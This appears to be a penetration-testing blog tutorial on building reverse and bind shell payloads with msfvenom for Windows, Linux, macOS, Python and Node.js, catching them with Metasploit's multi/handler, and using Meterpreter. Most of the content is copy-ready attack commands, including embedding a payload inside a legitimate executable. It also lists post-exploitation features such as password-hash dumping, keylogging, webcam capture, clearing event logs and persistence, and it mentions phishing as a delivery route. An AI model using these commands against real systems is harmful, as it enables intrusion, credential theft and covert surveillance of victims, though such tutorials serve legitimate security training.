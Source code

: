 ```yaml
---
title: MSFVenom Reverse Shells + Handler
publishedOn: Febuary 14th, 2023
slug: msfvenom-reverse-shells
excerpt: This blog article explores the use of Msfvenom and Metasploit for creating and controlling reverse shells, which are a type of shell that provides a remote command line interface to a compromised system. The article explains how Msfvenom can be used to generate a reverse shell payload, and how Metasploit's multi/handler module can be used to handle the incoming connection from the compromised system.
readingTime: 10 mins
---
```

# Metasploit-Framework's Msfconsole && Msfvenom

Msfvenom and Metasploit are popular tools in the field of penetration testing and exploitation. Msfvenom is a versatile payload generator that can be used to create various types of payloads, including reverse shells. A reverse shell is a type of shell in which a remote system connects back to the attacker's system, providing the attacker with a command line interface to execute commands on the remote system. Metasploit, on the other hand, is a framework that provides a set of tools for exploiting vulnerabilities in systems.


# **Creating The Shell with Msfvenom**
------------------------
To use Msfvenom to create a reverse shell, the attacker needs to specify the payload type, the target platform, the IP address and port to connect back to, and any additional options as needed. Once the payload is generated, it can be delivered to the target system using various methods, such as social engineering, phishing, arp poisoning or exploiting vulnerabilities. In most cases it also needs to be be exectud

--------------------

## **Msfvenom uses the following syntax....**
    msfvenom -p <PAYLOAD> -e <ENCODER> -f <FORMAT> -i <ENCODE COUNT> LHOST=<IP> LPORT=<PORT>

**List Payloads**

`msfvenom -l payloads`

**List Encoders**

`msfvenom -l encoders` 


### **Windows Reverse Shell....**
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > reverse.exe`

### **Windows Bing Shell...**
`msfvenom -p windows/meterpreter/bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f exe > bind.exe`

Embedded inside an executable...
`msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -x /usr/share/windows-binaries/plink.exe -f exe -o plinkmeter.exe`

### **Linux Reverse Shells...**
`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f elf > reverse.elf`

`msfvenom -p linux/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf`

### **Linux Bind Shell...**
`msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f elf > bind.elf`

### **Mac Reverse Shell...**
`msfvenom -p osx/x86/shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f macho > reverse.macho`

### **Mac Bind Shell...**
`msfvenom -p osx/x86/shell_bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f macho > bind.macho`

### **Python Shell....**
`msfvenom -p cmd/unix/reverse_python LHOST=(IP Address) LPORT=(Your Port) -f raw > reverse.py`

### **Node.Js Shell...**
`msfvenom -p nodejs/shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port)`

--------------------

Some recources make it so you don't ever have to know any of this. In the Chrome Web Store, [Hack-Tools](https://chrome.google.com/webstore/detail/hack-tools/cmbndhnoonmghfofefkcccljbkdpamhi) has an awesome feature that will build these commands for you in a GUI, both for client/handler commands.

--------------------

Another great one is [revshells.com](https://www.revshells.com/)
------------------------

# Handling The Shell with Msfconsole
To handle the incoming connection from the target system, Metasploit provides a module called "multi/handler". This module listens on a specified IP address and port and provides a command line interface to interact with the remote system. When the remote system connects back to the handler, the attacker can use various Metasploit modules to gain further access to the system.

Start Metasploit...
`msfconsole -q`

We need to select multi/handler module...
`use multi/handler`

Setting the payload to whatever payload you choose earlier...
`set payload windows/x64/meterpreter/reverse_tcp`

Configuring the Connection Details...
`set lhost 10.112.11.229; set lport 1111;`

Starting up the listener...

`run` or `exploit`

It's now listening on that port for the reverse connection, so as soon as the payload executes on the target your session will start.

---------------
# **Meterpreter Shells**

One of the most popular modules in Metasploit is called "meterpreter". Meterpreter is a powerful post-exploitation tool that provides a rich set of features, including file system access, privilege escalation, keylogging, and more. Meterpreter is designed to bypass traditional security measures, such as firewalls and antivirus software, and provides a stealthy and persistent way to maintain control over the compromised system.

Besides reverse shells and meterpreter, other types of shells include bind shells, which listen for incoming connections from the attacker, and web shells, which are scripts or programs that are uploaded to a vulnerable web application to provide a command line interface. Each type of shell has its own advantages and disadvantages, and the choice of which to use depends on the specific scenario and the attacker's goals.

------------
# A few awesome Meterpreter Abilities

 - getsystem - Attempts to elevate privileges on the compromised system to the highest level possible.
- hashdump - Dumps the password hashes stored on the compromised system, which can be used for further exploitation.
- clearev - Clears the event logs on the compromised system to cover the attacker's tracks.
- screenshot - Takes a screenshot of the compromised system's desktop.
- keyscan_start/keyscan_stop - Starts or stops keylogging on the compromised system to capture keystrokes, including passwords.
- webcam_snap - Takes a snapshot from the compromised system's webcam.
- persistence - Installs a persistent backdoor on the compromised system, allowing the attacker to maintain access even after reboot.
- migrate - Moves the Meterpreter process to a new process on the compromised system, which can help evade detection by security software.
- shell - Opens a shell on the compromised system, allowing the attacker to execute commands directly.
- upload/download - Uploads or downloads files to/from the compromised system.
- portfwd - Forwards a port from the compromised system to the attacker's system, allowing the attacker to access services on the compromised system that are not exposed externally.
- socks4a - Sets up a SOCKS4a proxy on the compromised system, allowing the attacker to pivot through the compromised system to access other internal systems.
------------------------


## **Safe to say, Try and use a Meterpreter shell when it's available**
------------------------

#### ***While the use of reverse shells and post-exploitation tools like Meterpreter can be powerful tools for penetration testing and security research, it's important to always use this knowledge for good and never cause harm or be intrusive to others. As ethical hackers, we have a responsibility to use our skills and knowledge in a responsible and ethical way to improve the security of systems and protect the privacy of individuals and organizations. Let's always remember to use our powers for good and to promote a safer and more secure digital world.*** 